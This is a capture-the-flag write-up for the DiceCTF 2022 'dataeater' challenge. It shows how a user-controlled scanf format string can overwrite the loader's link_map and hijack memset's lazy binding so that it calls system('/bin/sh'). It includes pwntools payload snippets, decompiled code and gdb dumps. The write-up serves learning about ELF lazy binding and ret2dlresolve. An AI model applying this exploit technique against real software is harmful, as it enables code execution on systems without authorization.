 # Is FSB still vulnerable with scanf: Data-eater

- Challenge Authors : KyleForkBomb
- Tag : pwn, fsb, ret2dl, rop
- Points : 220 (25 solves)
- Difficulty : medium

### Challenge Description

> nom nom nom! i can eat all kinds of data :D
> 

I tried to solve this problem in Dice CTF 2022, but I couldn't solve it in the competition, but I tried it again because I thought it would be helpful after seeing the Writeup.

I referenced this writeup, and paper of UseNIX Security about ret2dlresolve

[https://github.com/nhtri2003gmail/writeup-ctf.dicega.ng-dataeater](https://github.com/nhtri2003gmail/writeup-ctf.dicega.ng-dataeater)

[](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-di-frederico.pdf)

I recommend to read above paper if you don’t know ret2dlresolve detail. Because paper is very detailed about ELF security.

Let’s go!! ▶️

If we unzip challenge file we can only get a ELF executable file `dataeater` 

## 1. Analysis

We can see file information with `file` command

```html
dataeater: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=a3e6d6f42869e6785a5d3815426a76137ac581e1, not stripped
```

We know this binary is 64-bit not stripped file, so we can identify symbols of binary

Let’s see file mitigation!!

```html
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

There is no pie, partial RELRO ⇒ In this challenge this feature will be used

Now let's take a look at the flow of the program with IDA Pro.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  const char **v3; // rax
  const char **v4; // rax
  char s[8]; // [rsp+20h] [rbp-10h] BYREF
  unsigned __int64 v9; // [rsp+28h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  while ( *argv )
  {
    v3 = argv++;
    *v3 = 0LL;
  }
  while ( *envp )
  {
    v4 = envp++;
    *v4 = 0LL;
  }
  fgets(s, 8, stdin);
  __isoc99_scanf(s, &buf);
  memset(&buf, 0, 0x20uLL);
  MEMORY[0] = 0;
  return 0;
}
```

We can see first program receive **8 bytes data for format string used by scanf**

so we can control scanf’s format string

After scanf, memset our global variable, program crash itself

So How we use this vulnerability?

## 2. Exploit

Before exploit, We have to know `lazy binding`, `link_map` structure, `DT_STRTAB`

First, We have to know `link_map` pointer usually in stack. I assume that in lazy binding, `link_map` and `reloc_offset` is pushed to resolve library function. so I think when `__libc_start_main@plt`  called, link_map’s address is pushed

so If we make format string like `%s%<linkmap_offset>$s` we can overwrite `buf` and `link_map` in loader memory. and if we change `link_map` values, we can control `memset's lazy binding`process!!

```python
payload = b'%s%32$s' ## this 32 value will be known by gdb or brute force for remote environment

p.sendline(payload)
```

Let’s see `link_map` & `dl_fixup`

[link_map](https://code.woboq.org/userspace/glibc/include/link.h.html#92):

```c
struct link_map
{
    Elf64_Addr l_addr;
    char *l_name;
    Elf64_Dyn *l_ld;
    struct link_map *l_next, *l_prev;
    struct link_map *l_real;
    Lmid_t l_ns;
    struct libname_list *l_libname;
    Elf64_Dyn l_info[77]
    ...
}
```

[dl_fixup](https://code.woboq.org/userspace/glibc/elf/dl-runtime.c.html#59):

```c
1  |_dl_fixup (
2  |# ifdef ELF_MACHINE_RUNTIME_FIXUP_ARGS
3  |            ELF_MACHINE_RUNTIME_FIXUP_ARGS,
4  |# endif
5  |            struct link_map *l, ElfW(Word) reloc_arg)
6  |{
7  |    const ElfW(Sym) *const symtab = (const void *) D_PTR (l, l_info[DT_SYMTAB]);
8  |    const char *strtab = (const void *) D_PTR (l, l_info[DT_STRTAB]);
9  |    
10 |    const PLTREL *const reloc = (const void *) (D_PTR (l, l_info[DT_JMPREL]) + reloc_offset);
11 |    const ElfW(Sym) *sym = &symtab[ELFW(R_SYM) (reloc->r_info)];
12 |    const ElfW(Sym) *refsym = sym;
13 |    void *const rel_addr = (void *)(l->l_addr + reloc->r_offset);
14 |    lookup_t result;
15 |    DL_FIXUP_VALUE_TYPE value;
16 |    
17 |    /* Sanity check that we're really looking at a PLT relocation.  */
18 |       assert (ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT);
19 |    
20 |    /* Look up the target symbol.  If the normal lookup rules are not
21 |       used don't look in the global scope.  */
.. |    ...
89 |}
```

[DT_* constant](https://code.woboq.org/userspace/glibc/elf/elf.h.html#853) value which is used by `dl_fixup`:

```c
# define DT_STRTAB        5  // we will use this value
# define DT_SYMTAB        6
# define DT_JMPREL        23
```

Above code and paper about ret2dlresolve, we can know there is two ways to hijack control flow from abusing lazy binding process

1. control reloc_offset variable by ROP ⇒ make Fake ELF64_Rela, ELF64_SYM strucre in bss or writeable memory ⇒ execute arbitary function
2. control l_info[DT_STRTAB] in link_map which value is pointer of .dynamic section which has value of elf string table section address and make fake string table in writable memory  ⇒ so lazy binding process will be mistaken string table ⇒ execute arbitary function

We will use 2nd approach by overwrite until `l_info[DT_STRTAB]` 

```python
link_map = p64(0) * 13 # we have to see this offset everytime
link_map += p64(elf.sym['buf'] + 8)[:-1]
```

So we can abuse that lazy binding system see our `buf+8` as .dynamic section which has string table address.

this is real .dynamic section

```python
gef➤  # x/50xg linkmap
gef➤  x/50xg 0x00007ffff7ffe180
0x7ffff7ffe180:    0x0000000000000000    0x00007ffff7ffe720
0x7ffff7ffe190:    0x0000000000600e20    0x00007ffff7ffe730
0x7ffff7ffe1a0:    0x0000000000000000    0x00007ffff7ffe180
0x7ffff7ffe1b0:    0x0000000000000000    0x00007ffff7ffe708
0x7ffff7ffe1c0:    0x0000000000000000    0x0000000000600e20    <-- l_info at 0x7ffff7ffe1c0
0x7ffff7ffe1d0:    0x0000000000600f00    0x0000000000600ef0
0x7ffff7ffe1e0:    0x0000000000000000    0x0000000000600ea0    <-- l_info[5] = 0x0000000000600ea0
0x7ffff7ffe1f0:    0x0000000000600eb0    0x0000000000600f30
0x7ffff7ffe200:    0x0000000000600f40    0x0000000000600f50

gef➤  # x/2xg l_info[DT_STRTAB] = l_info[5]
gef➤  x/2xg 0x0000000000600ea0
0x600ea0:    0x0000000000000005    0x0000000000400380        <-- STRTAB
```

we abuse 0x600ea0 → &(buf + 8), and make *(buf + 16) = &buf

and originally memset string location in .dynstr is 55. so we write “system” in &(buf + 55)

```python
buf_data = fit({
        0: b"/bin/sh\x00",
        8: flat(5, elf.sym['buf']),
        55: b'system\x00'
        }, filler = b"\x00")
```

then we can get shell!!

I think this challenge is very instructive, and thanks to this challenge and nice writeup with paper!! In the process of trying to understand writeup, I also read a paper, so I learned a lot about ELF.
